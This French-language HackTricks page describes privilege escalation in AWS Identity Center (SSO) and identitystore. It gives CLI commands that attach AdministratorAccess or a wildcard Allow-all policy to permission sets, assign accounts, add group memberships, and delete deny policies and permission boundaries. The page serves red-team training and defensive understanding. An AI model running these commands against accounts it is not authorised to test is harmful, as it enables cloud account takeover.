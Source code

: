 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Pour plus d'informations sur AWS Identity Center / AWS SSO, consultez :

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Notez qu'en **default**, seuls les **utilisateurs** avec des permissions **du** **compte de gestion** pourront accéder et **contrôler le IAM Identity Center**.\
Les utilisateurs d'autres comptes ne peuvent le permettre que si le compte est un **Administrateur délégué.**\
[Consultez la documentation pour plus d'infos.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Réinitialiser le mot de passe~~

Un moyen facile d'escalader les privilèges dans des cas comme celui-ci serait d'avoir une permission qui permet de réinitialiser les mots de passe des utilisateurs. Malheureusement, il n'est possible d'envoyer un e-mail à l'utilisateur pour réinitialiser son mot de passe, donc vous auriez besoin d'accéder à l'e-mail de l'utilisateur.

### `identitystore:CreateGroupMembership`

Avec cette permission, il est possible de placer un utilisateur dans un groupe afin qu'il hérite de toutes les permissions que le groupe possède. 

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Un attaquant avec cette permission pourrait accorder des permissions supplémentaires à un ensemble de permissions qui est accordé à un utilisateur sous son contrôle.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Un attaquant avec cette permission pourrait accorder des permissions supplémentaires à un Ensemble de Permissions qui est accordé à un utilisateur sous son contrôle.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Un attaquant avec cette permission pourrait accorder des permissions supplémentaires à un ensemble de permissions qui est accordé à un utilisateur sous son contrôle.

{% hint style="warning" %}
Pour abuser de ces permissions dans ce cas, vous devez connaître le **nom d'une politique gérée par le client qui se trouve dans TOUS les comptes** qui vont être affectés.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Un attaquant disposant de cette autorisation pourrait attribuer un ensemble de permissions à un utilisateur sous son contrôle pour un compte.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Renvoie les informations d'identification à court terme STS pour un nom de rôle donné qui est attribué à l'utilisateur.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Cependant, vous avez besoin d'un jeton d'accès que je ne sais pas comment obtenir (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Un attaquant ayant cette autorisation peut supprimer l'association entre une politique gérée par AWS et l'ensemble de permissions spécifié. Il est possible d'accorder plus de privilèges en **détachant une politique gérée (politique de refus)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Un attaquant avec cette permission peut supprimer l'association entre une politique gérée par le client et l'ensemble de permissions spécifié. Il est possible d'accorder plus de privilèges en **détachant une politique gérée (politique de refus)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Un attaquant avec cette permission peut supprimer les permissions d'une politique intégrée du jeu de permissions. Il est possible d'accorder **plus de privilèges en détachant une politique intégrée (politique de refus)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Un attaquant avec cette permission peut supprimer la Limite de Permission de l'ensemble de permissions. Il est possible d'accorder **plus de privilèges en supprimant les restrictions sur l'ensemble de permissions** donné par la Limite de Permission.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
